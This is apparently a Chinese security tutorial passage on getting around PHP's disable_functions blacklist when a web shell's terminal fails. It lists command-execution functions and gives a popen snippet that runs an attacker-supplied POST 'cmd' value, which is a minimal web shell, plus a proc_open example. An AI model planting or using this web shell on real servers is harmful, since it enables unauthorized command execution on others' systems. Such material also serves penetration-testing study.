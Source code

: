##  前言

有些时候，phpinfo()有`disable_functions`

![image-20210209143246016](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271738816.jpeg)

蚁剑终端命令不起作用，就可能是`df`的问题

![image-20220326232444077](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271009159.png)

##  黑名单绕过

就是一些运维人员php命令执行的函数没禁用完

```php
exec,passthru,shell_exec,eval,system,popen,proc_open(),pcntl_exec
```

前几种都比较简单

**popen**

打开进程文件指针

```php
<?php
$command=$_POST['cmd'];
$handle = popen($command,"r");
while(!feof($handle)){        
    echo fread($handle, 1024);  //fread($handle, 1024);
}  
pclose($handle);
?>
```

**proc_open**

proc_open — 执行一个命令，并且打开用来输入/输出的文件指针。

```php
<?php
$command="ipconfig";
$descriptorspec = array(1 => array("pipe", "w"));
$handle = proc_open($command ,$descriptorspec , $pipes);
while(!feof($pipes[1])){     
    echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
}
?>
```

```php
$descriptorspec = array(
   0 => array("pipe", "r"),  // 标准输入，子进程从此管道中读取数据
   1 => array("pipe", "w"),  // 标准输出，子进程向此管道中写入数据
   2 => array("file", "/tmp/error-output.txt", "a") // 标准错误，写入到一个文件
);
```
